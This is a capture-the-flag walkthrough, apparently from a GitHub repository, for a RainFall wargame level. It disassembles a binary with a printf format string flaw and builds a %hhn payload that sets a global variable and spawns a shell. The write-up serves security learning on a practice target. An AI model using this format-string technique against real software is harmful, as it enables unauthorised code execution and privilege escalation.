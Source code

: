 # LEVEL 3

```asm
0804851a <main>:
 804851a:	55                   	push   ebp
 804851b:	89 e5                	mov    ebp,esp
 804851d:	83 e4 f0             	and    esp,0xfffffff0
 8048520:	e8 7f ff ff ff       	call   80484a4 <v>
 8048525:	c9                   	leave
 8048526:	c3                   	ret
```
The `main` function is only calling `v`, like in the preceding level.
```asm
080484a4 <v>:
 80484a4:	55                   	push   ebp
 80484a5:	89 e5                	mov    ebp,esp
 80484a7:	81 ec 18 02 00 00    	sub    esp,0x218
 80484ad:	a1 60 98 04 08       	mov    eax,ds:0x8049860
 80484b2:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80484b6:	c7 44 24 04 00 02 00 	mov    DWORD PTR [esp+0x4],0x200
 80484bd:	00
 80484be:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484c4:	89 04 24             	mov    DWORD PTR [esp],eax
 80484c7:	e8 d4 fe ff ff       	call   80483a0 <fgets@plt>
```
The `v` function declares a 512 bytes buffer, plus space for function arguments. Its then getting 512 bytes
of user input from stdin, effectively filling the buffer, without overflowing.
```asm
 80484cc:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484d2:	89 04 24             	mov    DWORD PTR [esp],eax
 80484d5:	e8 b6 fe ff ff       	call   8048390 <printf@plt>
 ```
The vulnerability lies in the fact that this string is passed as it is to `printf`, where it should be formatted
as a `"%s"`. This allow us to input any number of `%` formats and `printf` will interpret them as if they were
passed through the stack like normal arguments. This means, `[ebp + 0x4]` being the only valid argument, `printf`
will read the stack for us from below this (so `[ebp + 0x8]` first).   
There is a `printf` format, `%n` that permit us to write data, taking the variadic argument as an address,
and storing the amount of characters, as an int, already outputted by the current `printf` call at this address.   
There are variations of this format, `%hn` and `%hhn` that will respectively store a short (2 bytes) and a single 
byte. (i believe if `n` is for an 4 bytes, `hn` is for "half" of 4 bytes, and `hhn` "half-half", that's how i 
remember those).   
```asm
 80484da:	a1 8c 98 04 08       	mov    eax,ds:0x804988c
 80484df:	83 f8 40             	cmp    eax,0x40
 80484e2:	75 34                	jne    8048518 <v+0x74>
 ```
After printing, a global variable value is checked. If its not equal to 64, the function simply returns to the
main, terminating the execution. Otherwise, it executes `system("/bin/sh")`, giving us a priileged shell.
The goal will be to overwrite this variable (at address `0x0804988c`) with the value 64.
```bash
level3@RainFall:~$ echo "%8x %8x %8x %8x %8x %8x" | ./level3
     200 b7fd1ac0 b7ff37d0 20783825 20783825 20783825
```
We first exploit the format string to dump some stack values and find where our buffer is. The pattern
`20783825` is litterally "%8x " treated as an unsigned int in hexadecimal. So we need to get rid of 3 values
before being sure of using our own buffer as variadic arguments. (May sound a little bit weird but it will be clear)
If we place the global variable address at the start of our buffer, we can use it as a target for a `%hhn` and write
here. Now we have to make `printf` output 64 characters before writing. We can achieve the following by exhausting
the 3 values before the buffer using a `%Nx` format, `N` being a forced length for this format, padded with spaces.
Finally, we have `(global address: 4 bytes)%8x%8x%44x` that takes exactly 64 chars to be printed (4 + 8 + 8 + 44) and
then we can append `%n`, `%hn` or `%hhn` (the choice won't really matter since we are targeting an int address).
```python
GLOBAL_M = 0x0804988c

payload = b""
payload += p32(GLOBAL_M) + b"%8x%8x%44x%hhn"
```
